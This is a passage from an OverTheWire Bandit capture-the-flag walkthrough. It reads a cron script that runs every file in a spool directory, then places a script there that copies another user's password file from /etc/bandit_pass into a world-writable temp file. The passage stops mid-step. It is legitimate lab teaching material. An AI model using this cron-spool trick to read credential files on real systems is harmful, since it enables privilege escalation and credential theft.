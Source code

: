 > @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null  
> \* \* \* \* \* bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

`cat /usr/bin/cronjob_bandit24.sh`  

> #!/bin/bash  
>   
> myname=$(whoami)  
>   
> cd /var/spool/$myname/foo || exit 1  
> echo "Executing and deleting all scripts in /var/spool/$myname/foo:"  
> for i in * .*;  
> do  
>     if [ "$i" != "." -a "$i" != ".." ];  
>     then  
>         echo "Handling $i"  
>         owner="$(stat --format "%U" ./$i)"  
>         if [ "${owner}" = "bandit23" ]; then  
>             timeout -s 9 60 ./$i  
>         fi  
>         rm -rf ./$i  
>     fi  
> done  

Looks like there is a directory at the path: '/var/spool/bandit24/foo'. Let's look if it is really there:  

`cd /var/spool/bandit24/foo`  
Yes. It does exist. By looking at the script above, the scheduled tasks executes every file at this directory, and deletes them after execution.  
But why is that good for us? We need the password for the next level. We can write a script that writes out the contents of '/etc/bandit_pass/bandit24' to a file that's accessible for us.  
Let's create a directory under '/tmp'

`mktemp -d`  
`cd {directoryname}`  
Once we are inside the directory, we can write a little script to get the contents of the password file. We use 'cat' on '/etc/bandit_pass/bandit24' and then forward it to '/tmp/{directoryname}/password'  
`nano myscript.sh`  

```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/{directoryname}/password
```

Let's create the file, called 'password'  
`touch password`  
Also, we need to set proper permissions, so everyone can write to this file:  
`chmod 777 -R password`

After we've saved the file, let's copy this to '/var/spool/bandit24/foo' by typing:  
`cp myscript.sh /var/spool/bandit24/foo`  

After a minute, let's check the size of the password file:
